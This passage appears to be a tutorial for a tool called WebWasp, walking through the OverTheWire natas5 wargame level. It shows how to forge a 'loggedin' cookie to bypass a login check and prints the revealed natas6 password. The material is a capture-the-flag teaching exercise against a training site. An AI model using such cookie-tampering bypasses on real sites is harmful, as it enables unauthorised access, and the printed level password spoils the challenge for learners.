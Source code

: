 Not logged in... I thought we logged in with the auth credentials!

Well if those had failed, the site would've returned us another `401` status code, but we got a `200`! So what gives?

There must be some other check going on here that pertains to a log in.

Many times, a session id or login is stored within a sites _cookies_ 🍪. Cookies are small bits of information that are typically stored within your browser.

Your browser will pass these cookies to sites to help remember things like your login or certain passwords!

We can inspect the cookies we received from the get request by using the response command with a new option:

```
> response show -c
[🐝] Response cookies:
   loggedin     : 0
```

Sure enough, this site uses a cookie called `loggedin`! This tells us that the `loggedin` value we provided was `0`. Maybe we need to set this to something non-zero to trick the website into thinking we're logged in!

We can do this by using WebWasp's `cookies` command. We'll go ahead and add a cookie with the same name as in the response, with a value of `1` instead of `0`:

```
> cookies add loggedin 1
[🍪] Added cookie:
   'loggedin' : '1'
```

Now when we make our get request again, this cookie will be passed along with it, just like our headers!

```
> get http://natas5.natas.labs.overthewire.org/
[🐝] Sending GET request to http://natas5.natas.labs.overthewire.org/...
[🐝] GET request completed. Status code: 200 (OK)
[🐝] Response captured! Type 'response show' for summary
```
```HTML
> response show -t
<html>
<head>
-- truncated --
</head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR</div>
</body>
</html>
```
